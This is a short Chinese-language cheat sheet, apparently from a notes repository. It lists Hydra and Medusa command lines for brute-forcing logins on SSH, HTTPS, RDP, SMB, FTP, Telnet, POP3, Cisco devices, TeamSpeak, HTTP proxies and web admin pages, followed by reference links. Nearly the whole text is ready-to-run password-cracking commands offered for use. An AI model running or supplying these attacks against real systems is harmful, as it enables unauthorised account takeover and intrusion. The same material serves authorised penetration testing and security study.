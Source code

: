 ```bash
使用hydra破解ssh的密码

hydra -L users.txt -P password.txt -vV -o ssh.log -e ns IP ssh

破解https：

# hydra -m /index.php -l username -P pass.txt IP https

破解teamspeak：

# hydra -l 用户名 -P 密码字典 -s 端口号 -vV ip teamspeak

破解cisco：

# hydra -P pass.txt IP cisco

# hydra -m cloud -P pass.txt 10.36.16.18 cisco-enable

破解smb：

# hydra -l administrator -P pass.txt IP smb

破解pop3：

# hydra -l muts -P pass.txt my.pop3.mail pop3

破解rdp：

# hydra IP rdp -l administrator -P pass.txt -V

破解http-proxy：

# hydra -l admin -P pass.txt http-proxy://10.36.16.18

破解telnet

# hydra IP telnet -l 用户 -P 密码字典 -t 32 -s 23 -e ns -f -V

破解ftp：

# hydra IP ftp -l 用户名 -P 密码字典 -t 线程(默认16) -vV

# hydra IP ftp -l 用户名 -P 密码字典 -e ns -vV

get方式提交，破解web登录：

# hydra -l 用户名 -p 密码字典 -t 线程 -vV -e ns IP http-get /admin/

# hydra -l 用户名 -p 密码字典 -t 线程 -vV -e ns -f IP http-get /admin/index.php
```

使用medusa爆破

```
medusa -M ssh -h 127.0.0.1 -F -u cqq -P /tmp/pass.txt
```


## 参考
- http://www.vuln.cn/2528
- http://blog.51cto.com/jzking121/1770605
- https://hackertarget.com/brute-forcing-passwords-with-ncrack-hydra-and-medusa/
- https://www.cnblogs.com/ch3n3y/p/5877018.html
- http://foofus.net/goons/jmk/medusa/medusa.html
